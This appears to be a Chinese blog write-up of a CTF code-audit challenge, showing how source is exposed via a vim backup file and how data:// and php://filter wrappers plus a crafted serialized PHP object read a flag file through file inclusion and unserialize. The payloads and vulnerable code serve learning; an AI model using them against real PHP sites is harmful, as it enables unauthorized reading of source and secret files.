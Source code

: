 ```yaml
---
layout: post
title: "一道代码审计题目"
date: 2019-08-16
description: "CTF"
tag: CTF
---
```

---

### 前言：

朋友在给客户培训，然后客户有比赛，就帮忙看个题，也是自己学习一下吧！ <br>

题目：代码审计 <br>

PHP 是世界上最好的语言，我这样说你有意见么？ <br>

Address 

-----


### 目录：

* <a href="#a" target="_self">一道代码审计题目</a>
* <a href="#zg" target="_self">总结</a>
* <a href="#wx" target="_self">参考文献</a>

-------


### <span id = "a">一道代码审计题目：</span>

打开题目就显示一句话 `you can't get flag!` <br>

然后听朋友讲，不管怎么扫都没有用， <br>

代码审计的题目，一般是要看到源码才能审计的，<br>

要么是扫到源码，要么就爆出源码 <br>

![images](/images/2019-08-16/01.png)

-----

那么如果扫不到，那么就爆吧！ <br>

起初查看源代码没有任何东西，<br>

根据经验，后面加个 **`~`** 波浪线 就能爆出源码，查看源代码就能看到源码了 <br>

关于为什么 **`~`** 波浪线 能够爆出源码 <br>

它是 Linux备份文件，用文本编辑器编辑文件时的备份文件，比如 vim 编辑文件时产生的备份文件 <br>

![images](/images/2019-08-16/02.png)

-----

源码： <br>

```php
<!--
    $testa = $_GET["user"];
    $testb = $_GET["file"];
    $testc = $_GET["pass"];

if(isset($testa)&&(file_get_contents($testa,'r')==="can you get flag")){
    echo "Surprise     !<br><br><br><br>";
    include($testb); //key.php
}else{
    echo "you can't  get flag! ";
}
 -->
```

首先要满足两个条件， <br>

一个是 **$testa** 不能为空，另外一个是 **$testa** 内容为 **can you get flag** <br>

**file_get_contents()** 函数是将文件内容读入到字符串中 <br>

我们有两种方法满足这个条件， <br>

一种是使用远程文件，另外一种是使用 data 伪协议 <br>

-----

来尝试构造 **payload** <br>

`?user=data:text/plain;base64,Y2FuIHlvdSBnZXQgZmxhZw==&file=key.php` <br>

**data:text/plain** 表示将文件设置为纯文本的形式 <br>

**base64** 就是表示使用 **base64编码** <br>

**Y2FuIHlvdSBnZXQgZmxhZw== (can you get flag)**为文本内容 <br>

这样就满足条件，然后通过 **file** 变量包含 **key.php** 文件 <br>

运行之后发现输出了 Surprise ，说明第一个条件是满足的，但是没有看到 key.php 的内容 <br>

根据以往经验，还需要使用其他伪协议来读取 <br>

![images](/images/2019-08-16/03.png)

-----

可以使用 **php://filter** 协议 来读取一下 **index2.php** 的源码 <br>

payload： `?user=data:text/plain,base64,Y2FuIHlvdSBnZXQgZmxhZw==&file=php://filter/read=convert.base64-encode/resource=index2.php`

然后成功读取到 **index2.php** 的内容 <br>

![images](/images/2019-08-16/04.png) <br>

-----

解密 <br>

![images](/images/2019-08-16/05.png)

-----

再来看看代码 <br>

```php
<?php

$testa = $_GET["user"];
$testb = $_GET["file"];
$testc = $_GET["pass"];

if(isset($testa)&&(file_get_contents($testa,'r')==="can you get flag")){
    echo "Surprise     !<br><br><br><br>";
    if(preg_match("/flag/",$testb)){
        exit();
    }else{
        include($testb); //class.php  
        $testc = unserialize($testc);
        echo $testc;
    }
}else{
    echo "you can't  get flag!";
}

?>
```

这里他使用了一个正则表达式判断 **$testb** 参数， <br>

如果参数带 **flag** ，那么就退出 <br>

这里需要进行反序列化参数 **$testc** <br>

还需要读取一个文件 ，就是 **key.php** <br>

-----

解码后 key.php 的代码 <br>

```php
<?php
class Read{//flag.php
    public $testb;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
        }
        return "__toString to killyou!";
    }
}
?>
```

这里 **class** 了一个 **Read** 类，用来读取 **flag** 的 <br>

`__toString()`  是魔术方法的一种，具体用途是当一个对象被当作字符串对待的时候，会触发这个魔术方法 <br>

思路就是将 读 **flag** 的 **payload** 传入到 **key.php** 这个页面下 <br>

这个 payload 需要 满足 **$testa 、 $testb 、 $testc**  <br>

**$testa** 要满足 **can you get flag** <br>

**$testb** 要包含 **key.php** <br>

**$testc** 就是读取 **flag** 了 <br>

-----

那么 **$testc** 反序列化的内容怎么构造呢 <br>

首先要能够调用类 **Read** <br>

然后要满足 **$this->file** <br>

**$this->file** 就是 `$_GET["file"]` 参数里面的文件信息 <br>

怎么就payload就是： **`pass=O:4:"Read":1:{s:4:"file";s:8:"flag.php";}`** <br>

那么 **$this->file** 就是 **flag.php** 

-----

整个payload就是： <br>

**`?user=data:text/plain;base64,Y2FuIHlvdSBnZXQgZmxhZw==&file=key.php&pass=O:4:"Read":1:{s:4:"file";s:8:"flag.php";}`**

然后成功读取到 **flag** <br>

**flag** 在源码里面 <br>

![images](/images/2019-08-16/06.png)

-----


### <span id = "zg">总结：</span>

怎么讲，就是太菜了，一波三折 <br> 

如果有什么不懂的，可以把代码弄到本地，<br>

然后自己断点输出，这样会比较明了

-----


### <span id = "wx">参考文献：</span>

CTF wp `https://www.jianshu.com/p/879115af6fc6` <br>

data 协议 `https://www.cnblogs.com/liyongquan/p/8615928.html` <br>
